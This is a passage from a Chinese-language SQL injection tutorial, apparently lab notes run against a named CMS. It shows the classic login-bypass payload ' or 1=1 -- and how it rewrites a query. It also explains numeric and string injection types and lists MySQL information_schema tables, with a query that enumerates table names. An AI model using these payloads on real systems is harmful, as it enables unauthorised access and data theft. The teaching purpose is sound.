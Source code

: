 提交账号为admin，password时，数据库实际执行的查询语句为

```sql
select count(*) from admin where username='admin' and password='password'
```

如果``admin.getPassword()``函数传入的参数为' or 1=1 --

查询语句就变为

```sql
select count(*) from admin where username='admin' and password='' or 1=1 --'
```

由于where条件中的``1=1``永远为真，该语句与``select count(*) from admin``等价，只要数据库中有数据，必定返回``true``

### sql注入漏洞分类

- 数字型：id=1等
- 字符型：usename='admin'等



**以下环境基于威克cms进行实验**

## mysql

### 重要表格

- information_schema

记录了数据库信息

| table    | content    | useful columns                                               |
| -------- | ---------- | ------------------------------------------------------------ |
| SCHEMATA | 数据库信息 | schema_name                                                  |
| TABLES   | 表格信息   | TABLE_SCHEMA\|TABLE_NAME\|CREATE_OPTIONS                     |
| COLUMNS  | 列信息     | TABLE_SCHEMA\|TABLE_NAME\|COLUMN_NAME\|DATA_TYPE\|PRIVILEGES |

![SCHEMATA](img/schemata.png)

查询当前数据表

```sql
select table_name from information_schema.tables where table_schema=(select database());
```



- mysql
